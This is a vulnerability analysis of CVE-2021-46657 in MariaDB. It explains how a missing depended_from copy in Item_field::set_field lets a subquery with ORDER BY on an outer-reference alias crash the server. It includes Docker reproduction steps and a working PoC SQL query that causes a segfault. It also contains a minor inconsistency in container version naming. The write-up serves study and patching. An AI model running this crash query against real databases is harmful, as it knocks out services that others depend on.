



# CVE-2021-46657 CWE-None MariaDB DoS

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.
- **depended_from Attributes:** In MariaDB's internal query parsing structure, `depended_from` is a key internal property mainly used to track and record the "external reference" dependencies of a field. When a subquery references a field in its outer query, `depended_from` is used to mark which external query level that field "depends on." This information is crucial for query optimizers, ensuring that when handling complex operations like aggregation and sorting, the optimizer correctly understands the context and data sources of fields, thereby avoiding logical errors or program crashes caused by dependency confusion.

## Vulnerability Mechanism
When handling subqueries with external references, the parser fails to properly pass a key dependency property (`depended_from`), causing the object representing that reference to lose its identity as an "external reference." When subsequent sorting operations (`ORDER BY`) attempt to work on this incomplete object of identity, it can access invalid memory due to information confusion, ultimately causing a crash.

## Vulnerability Location
Analysis of MariaDB 10.6.0:

In the sql\item.cc file, line 5833 `Item_field::fix_fields` function is used to determine the final property of a field (Item) during parsing.

The statement on line 5884 enters this branch when the parser finds that a field (such as `c0`) is another alias of another field in the `SELECT` list. At line 5893, retrieve the original field object (`ref_t1.i1`) referenced by c0. Line 5908, code call `set_field(new_field)`, points the core of the current `Item_field` object representing `c0` to `new_field`.

```c
// SQL \item .cc file, line 5884 of the Item_field::fix_fields function
if ((*res)->type() == Item::FIELD_ITEM)
{
    // Line 5893, retrieves the original field object referenced by c0 (ref_t1.i1)
    Field *new_field= (*((Item_field**)res))->field;

    if (unlikely(new_field == NULL))
    {
      /* The column to which we link isn't valid. */
      my_error(ER_BAD_FIELD_ERROR, MYF(0), (*res)->name.str,
               thd->where);
      return(1);
    }

    set_max_sum_func_level(thd, select);
    // Line 5908
    set_field(new_field);
    return 0;
}
```

At line 3044 `set_field` the function copies a series of core attributes from the real field (`field_par`) to the alias object after the parser determines that a field alias (e.g., `c0`) points to a real field (e.g., `ref_t1.i1`). But among all these copied attributes, **the most critical `depended_from` attribute is missing**. In other words, this function only sets the most basic field pointer and does not copy other important attributes carried by the `new_field`, including the most critical `depended_from` attributes. This ultimately triggered a chain reaction in the upper-layer logic, causing the optimizer to become confused when processing `ORDER BY` due to insufficient information, resulting in the collapse of the entire database service.

```cpp
void Item_field::set_field(Field *field_par)
{
  field=result_field=field_par;			// for easy coding with fields
  maybe_null=field->maybe_null();
  Type_std_attributes::set(field_par->type_std_attributes());
  table_name= Lex_cstring_strlen(*field_par->table_name);
  field_name= field_par->field_name;
  db_name= field_par->table->s->db;
  alias_name_used= field_par->table->alias_name_used;

  fixed= 1;
  if (field->table->s->tmp_table == SYSTEM_TMP_TABLE)
    any_privileges= 0;
}
```

## Remediation
Add code after `set_field(new_field);`: If the current `Item_field` is a field alias copied from the SELECT list (e.g., `SELECT ref_t1.i1 AS c0`), it should inherit the external dependency information of the original field (`ref_t1.i1`) `depended_from`. This ensures that when calling `get_sort_by_table()` later, it can accurately identify that the field references the outer table, avoiding incorrect inference.

```c
// SQL \item .cc file
set_max_sum_func_level(thd, select);
// Line 5908
set_field(new_field);
depended_from= (*((Item_field**)res))->depended_from;  // Newly added
return 0;
```

## Affected Versions
**Affected version:** MariaDB:

- 5.5.20 to 5.5.67
- 10.0.0 to 10.2.38
- 10.3.0 to 10.3.29
- 10.4.0 to 10.4.19
- 10.5.0 to 10.5.10
- 10.6.0 to 10.6.1

## Environment Setup
Starting the Docker environment, MariaDB version is 10.6.0, administrator is root user, password is 12345, there is a database test_db, open port 3306, and PoC file CVE-2021-46657-PoC.sql already exists in the container.

```txt
NIST: NVD Base Score: 5.5 MEDIUMVector:  CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:mariadb:mariadb:10.6.0:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

```bash
docker exec -it mariadb-10.6.3 bash
```

2. Log in with the root user and connect to the database test_db, password 12345

```sql
mariadb -u root -p test_db
```

3. Run the PoC file CVE-2021-46657-PoC.sql, and you will see that an error has occurred and the container automatically closes

```sql
source CVE-2021-46657-PoC.sql
```



4. Review the MariaDB crash log, and you can see `[ERROR] mysqld got signal 11 ;` indicating that a Segmentation Fault (segment error) has occurred and caused DoS.

```bash
docker logs mariadb-10.6.3
```



## PoC Analysis

```sql
CREATE TABLE t1 (i1 int);
INSERT INTO t1 VALUES (1), (2);

SELECT 1
FROM (
    t1
    JOIN t1 AS ref_t1
    ON (
        t1.i1 > (
            SELECT ref_t1.i1 AS c0
            FROM t1 b
            ORDER BY -c0
        )
    )
);
```

The code obtained the original field object referenced by `c0` through `new_field = ...`. This `new_field` object represents `ref_t1.i1`. Because `ref_t1` is an external query table, this `new_field` object correctly contains its **external dependency information** (i.e., `depended_from` property) internally. Afterwards, the code calls `set_field(new_field)`, pointing the core of the current `Item_field` object representing `c0` to `new_field`. **However, this function only sets the most basic field pointer and does not copy other important attributes carried by `new_field`, including the most critical `depended_from` attributes. **

During parsing and field resolution, when the parser processes external reference fields `ref_t1.i1` and associates them with aliases `c0`, it overlooks the replication of a key property called `depended_from` when setting various `c0` properties. This attribute is used to record its external dependencies.

Because `depended_from` information is missing, the `Item` object representing `c0` was not correctly marked with `OUTER_REF_TABLE_BIT`. The optimizer thus "forgets" that `c0` actually depends on external `ref_t1` tables.

## References
[NVD - CVE-2021-46657](https://nvd.nist.gov/vuln/detail/CVE-2021-46657)

[[MDEV-25629\] Crash in get_sort_by_table() in subquery with order by having outer ref - Jira](https://jira.mariadb.org/browse/MDEV-25629)

[MDEV-25629: Crash in get_sort_by_table() in subquery with order by ha… · MariaDB/server@e570f74](https://github.com/MariaDB/server/commit/e570f740cdabb1774683203ee848d522c6588dbc#diff-7332903e826268679fac3469101e653da54e1c784e3c4c01403ca8e76d535ac0)
